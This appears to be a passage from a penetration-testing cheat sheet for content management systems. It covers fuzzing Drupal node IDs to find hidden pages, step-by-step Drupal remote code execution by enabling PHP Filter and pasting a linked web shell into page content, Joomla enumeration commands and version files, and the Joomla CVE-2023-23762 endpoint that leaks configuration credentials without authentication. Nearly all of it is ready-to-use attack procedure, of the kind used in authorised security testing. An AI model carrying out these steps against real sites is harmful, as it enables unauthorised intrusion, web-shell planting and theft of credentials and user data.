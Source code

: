 #### Hidden pages enumeration

```
Fuzz /node/<NUMBER> where <NUMBER> is a number (from 1 to 500 for example).
You could find hidden pages (test, dev) which are not referenced by the search engines.

wfuzz -c -z range,1-500 --hc 404 <URL>/node/FUZZ
```

#### Drupal panel RCE

```
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)

Go to Modules -> (Check) PHP Filter  -> Save configuration

https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php

Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
```

### Squiz Matrix

#### Interesting Locations

```
/robots.txt
/_admin

```

### Joomla

#### Enumeration - Joomla

```
joomscan -u <URL>
./joomlavs.rb --url <URL> -a -v

Version
In /administrator/manifests/files/joomla.xml
In /language/en-GB/en-GB.xml
In plugins/system/cache/cache.xml
```

#### Joomla DB leak/unauthorised Cred exposure

```
Joomla 4.x > 4.2.7 are known to be vulnerable to unauthorised sensitive data exposure.  (CVE-2023-23762)
This can be used to bypass auth on api endpoint allowing an attacker to leak priv information.
/api/index.php/v1/config/application?public=true

Can be changed to RCE (https://vulncheck.com/blog/joomla-for-rce)

Further able to leak user database.  This doesn't include passwords or hash, however useful for bruteforce.

```
